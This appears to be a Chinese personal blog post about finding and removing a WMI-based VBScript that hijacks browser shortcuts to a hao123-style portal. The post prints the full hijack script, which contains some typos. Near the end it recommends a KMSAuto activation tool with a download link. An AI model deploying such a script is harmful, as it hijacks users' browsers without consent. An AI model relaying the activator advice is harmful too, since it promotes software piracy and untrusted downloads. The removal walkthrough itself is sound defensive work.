 ```yaml
---
layout: post
title: 抢救被流氓网站劫持的浏览器主页
description:  为什么hao123、2345等网站的老板们就不能文明点呢？
author: ArlenLuo
category:
- 极客志
---
```


最近重装了一次电脑。尽管什么百度系的软件我都没有下载，Chrome浏览器的主页还是被硬生生劫持了。每次点开后的主页是hao.qquu8.com这个链接，紧接着它会跳向hao123。电脑上原装的其他浏览器（IE和Edge）也是这样，弄得每次打开浏览器就被恶心一下，很是恼火。

![L1]

我们先来看看问题在哪。右键快捷方式查看属性：

![L2]

哦，原来快捷方式被改了，后面加了一段url。把它删了试试？

还是不行，几分钟后还是被改回来了。

我在很多平台上找了解决办法。有的试了没有效果，重新开机后还是一样的毛病，有的推荐装“管家”，但这种以毒攻毒的办法无异于饮鸩止渴。最后终于有一种靠谱的方法，经过实验和一点修改，完美解决！

主页被劫持的原理是一段通过WMI发起的定时自动运行脚本，WMI（Windows Management Instrumentation）可以理解成Windows系统后台运行的一个事件管理器。为查看WMI事件，先去下载WMITools并安装：<a href ="\images\post6\WMITools.exe" target="_blank">WMI工具</a>。

之后打开WMI Event Viewer：

![L3]

点击左上角的笔的图标（Register For Events），在弹出的Connect to namespace的框直接点OK，Login的页面也直接点OK。点开左侧栏的EventFilter，再点击下级目录的项目：

![L4]

在右侧栏右键点击ActiveScriptEventConsumer，并通过view instant properties查看属性：

![L5]

在Script Text那一栏我们可以看到这段脚本：

<pre>
On Error Resume Next

Const link = "http://hao.qquu8.com/?m=yx&r=j"
Const link360 = "http://hao.qquu8.com/?m=yx&r=j&s=3"
browsers = "114ie.exe,115chrome.exe,1616browser.exe,2345chrome.exe,2345explorer.exe,360se.exe,360chrome.exe,,avant.exe,baidubrowser.exe,chgreenbrowser.exe,chrome.exe,firefox.exe,greenbrowser.exe,iexplore.exe,juzi.exe,kbrowser.exe,launcher.exe,liebao.exe,maxthon.exe,niuniubrowser.exe,qqbrowser.exe,sogouexplorer.exe,srie.exe,tango3.exe,theworld.exe,tiantian.exe,twchrome.exe,ucbrowser.exe,webgamegt.exe,xbrowser.exe,xttbrowser.exe,yidian.exe,yyexplorer.exe"
lnkpaths = "C:\Users\Public\Desktop,C:\ProgramData\Microsoft\Windows\Start Menu\Programs,C:\Users\sjtul\Desktop,C:\Users\sjtul\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch,C:\Users\sjtul\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\StartMenu,C:\Users\sjtul\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar,C:\Users\sjtul\AppData\Roaming\Microsoft\Windows\Start Menu\Programs"
browsersArr = split(browsers,",")
Set oDic = CreateObject("scripting.dictionary")
For Each browser In browsersArr
    oDic.Add LCase(browser), browser
Next
lnkpathsArr = split(lnkpaths,",")
Set oFolders = CreateObject("scripting.dictionary")
For Each lnkpath In lnkpathsArr
    oFolders.Add lnkpath, lnkpath
Next
Set fso = CreateObject("Scripting.Filesystemobject")
Set WshShell = CreateObject("Wscript.Shell")
For Each oFolder In oFolders
    If fso.FolderExists(oFolder) Then
        For Each file In fso.GetFolder(oFolder).Files
            If LCase(fso.GetExtensionName(file.Path)) = "lnk" Then
                Set oShellLink = WshShell.CreateShortcut(file.Path)
                path = oShellLink.TargetPath
                name = fso.GetBaseName(path) & "." & fso.GetExtensionName(path)
                If oDic.Exists(LCase(name)) Then
                    If LCase(name) = LCase("360se.exe") Then
                        oDicShellLink.Arguments = link360
                    Else
                        oShellLink.Arguments = link
                    End If
                    If file.Attributes And 1 Then
                        fsoile.Attributes = file.Attributes - 1
                    End If
                    oShellLink.Save
                End If
            End If
        Next
    End If
Next
</pre>

终于抓到了幕后黑手。可以看到这是一段VBScript代码，攻击目标涵盖了包括Chrome、360、Firefox、搜狗等30余种常见的浏览器。脚本以浏览器的安装地址为切入点，创建WshShell对象，进而生成植入了流氓网站的快捷方式。360浏览器有限定主页格式，于是这段脚本还特地修饰了流氓网站的链接。唉，流氓至此，也是服了。

查到了源头如何清清除这段造孽的脚本呢？直接在WMI Event Viewer中将_EventFilter.Name="VBScriptKids_filter"右键删掉会被系统拒绝掉，需要去WMI Event Viewer的安装位置，右键以管理员方式运行exe文件才能删掉。之后还要把各个快捷方式都改回不带流氓网站的版本，包括桌面上的、开始菜单里的以及快速访问栏里的快捷方式，其中开始菜单里的快捷方式要去C:\ProgramData\Microsoft\Windows\Start Menu\Programs里改掉。唉，一趟下来真是让人心累，好在最终浏览器摆脱了流氓网站的劫持：

![L6]

当然在这时候，你可以点击之前下载的WMI安装包，把WMI系列工具卸载掉。

想说对百度这家公司的反感度又深了一层。

最后提一下电脑中毒的原因。我分析是前几天用了小马激活这个工具来激活Windows系统，当时并没有激活成功反而还引来了病毒。推荐一款<a href ="https://myfreeproject.com/soft/81-kmsauto-net-2016.html" target="_blank">俄罗斯人开发的工具</a>，可以成功激活Windows系统和Office软件，也不会招来一些流氓脚本：<a href ="\images\post6\KMSAuto-Net-1.4.9.zip" target="_blank">KMSAuto</a>。

[L1]: \images\post6\L1.jpg
{: class="img-responsive"}
[L2]: \images\post6\L2.jpg
{: class="img-small"}
[L3]: \images\post6\L3.jpg
{: class="img-responsive"}
[L4]: \images\post6\L4.jpg
{: class="img-responsive"}
[L5]: \images\post6\L5.jpg
{: class="img-medium"}
[L6]: \images\post6\L6.jpg
{: class="img-responsive"}


